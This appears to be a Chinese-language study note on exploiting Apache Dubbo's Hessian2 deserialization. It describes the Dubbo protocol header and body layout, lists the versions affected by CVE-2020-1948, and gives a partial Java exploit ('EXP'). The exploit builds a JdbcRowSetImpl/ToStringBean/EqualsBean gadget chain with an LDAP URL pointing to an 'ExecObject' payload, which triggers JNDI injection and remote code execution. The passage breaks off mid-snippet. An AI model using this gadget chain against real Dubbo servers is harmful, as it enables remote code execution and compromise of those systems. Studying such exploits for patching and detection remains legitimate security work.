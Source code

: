 

在学习之前首先看一下这篇文章:https://www.anquanke.com/post/id/197658#h2-0

简单了解`server`与`cilent`的通信流程,以及一些传输协议

然后看一下` hessian2反序列化`,反序列化利用都是通过动态掉用,如java反序列化会触发`readObject`,`fastjson`反序列化会触发一些`getter,setter`,`hessian2`在反序列化时会掉用参数最少的`construct`,而且参数要为基础类型,不然就会抛出异常报错,这让其利用起来更加困难,不过在反序列化map类时会掉用其put方法让其成为了一个可利用点,`marshalsec`中通过`rome`依赖进行攻击就是这个原理

通信格式:

header：

```
0-7位和8-15位：Magic High和Magic Low，类似java字节码文件里的魔数，用来判断是不是dubbo协议的数据包，就是一个固定的数字
16位：Req/Res：请求还是响应标识。
17位：2way：单向还是双向
18位：Event：是否是事件
19-23位：Serialization 编号
24-31位：status状态
32-95位：id编号
96-127位：body数据长度
128-…位：body
```

body：

```
1.dubboVersion
2.path
3.version
4.methodName
5.methodDesc
6.paramsObject
7.map
```

## CVE-2020-1948

```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

EXP:

```java
JdbcRowSetImpl rs = new JdbcRowSetImpl();
//todo 此处填写ldap url
rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
rs.setMatchColumn("foo");
Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
EqualsBean root = new EqualsBean(ToStringBean.class, item);

HashMap s = new HashMap<>();
Reflections.setFieldValue(s, "size", 2);
Class<?> nodeC;
try {
  nodeC = Class.forName("java.util.HashMap$Node");
}
catch ( ClassNotFoundException e ) {
  nodeC = Class.forName("java.util.HashMap$Entry");
}
Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);
```